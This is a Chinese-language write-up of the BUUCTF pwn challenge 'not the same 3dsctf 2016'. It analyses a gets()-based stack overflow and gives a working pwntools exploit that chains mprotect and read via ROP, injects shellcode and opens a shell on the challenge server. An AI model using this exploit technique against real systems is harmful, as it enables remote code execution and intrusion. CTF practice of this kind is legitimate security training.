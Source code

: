 ```yaml
---
author: 
  name: Zephyr
title: not the same 3dsctf 2016
date: 2022-3-22 13:21:03
permalink: /pages/2e1547494524d189
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# not the same 3dsctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/not_the_same_3dsctf_2016/not_the_same_3dsctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+Fh] [ebp-2Dh]

  printf("b0r4 v3r s3 7u 4h o b1ch4o m3m0... ");
  gets(&v4);
  return 0;
}
```

## 思路分析

1. 目前信息：
   - `main`函数内明显的栈溢出漏洞
   - 函数表内有`mprotect`函数
   - No PIE
   - NX 保护开启
1. 思路：
   - 可栈溢出，有`mprotect`函数，考虑劫持程序流到`mprotect`函数处给一段地址区域添加读写及执行权限，将`shellcode`写入该处，二次返回该处执行获得`shell`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/not_the_same_3dsctf_2016/not_the_same_3dsctf_2016'
io = remote('node4.buuoj.cn', 26190)
# io = process(pwnfile)
elf = ELF(pwnfile)
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
# 使用read向内存中写入shellcode
padding = 45
mem_addr = 0x080EB000
mem_len = 0x1000
mem_type = 7
pop_3times_ret = 0x0806FCC8
# pop 3次将上个函数的3个参数弹出，调整栈布局
shellcode = asm(shellcraft.sh())
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, mem_addr, mem_len,mem_type, read_addr, pop_3times_ret, 0, mem_addr, 0x100, mem_addr])
io.sendline(payload)
io.sendline(shellcode)
# 发送shellcode
io.interactive()
```
